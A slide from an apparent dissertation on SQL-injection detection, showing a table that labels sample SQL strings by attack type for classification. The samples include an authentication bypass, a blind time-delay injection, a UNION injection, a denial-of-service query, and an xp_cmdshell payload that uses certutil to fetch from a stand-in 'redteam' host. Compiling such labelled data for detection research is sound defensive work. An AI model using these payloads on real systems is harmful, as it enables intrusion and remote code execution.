

Attack Labelling
| Literature | Characteristic | Type | Label |
| --- | --- | --- | --- |
| [5] | alan’ or '2'='2'-- - | Authentication Bypass | 0 |
| [5] | ; WAITFOR TIME '18:15:00'; -- - | Blind SQL Injection | 1 |
| [6] | select derived\_table.table1 from (select encode(decode(compress(convert(post) using latin1)),md5(concat(post,post))) as derived\_table; | Denial of Service | 2 |
| [5] | ' UNION SELECT 'a',NULL,NULL,NULL-- - | Classic SQL Injection | 3 |
| [7] | ; exec master..xp\_cmdshell ‘certutil -urlcache -f https://redteam/'-- | Remote Code Execution | 4 |
| [8] | SELECT DEPARTMENT, COUNT(\*) FROM EMPLOYEES; | Normal SQL Operation | 5 |
Table 5 (from Dissertation)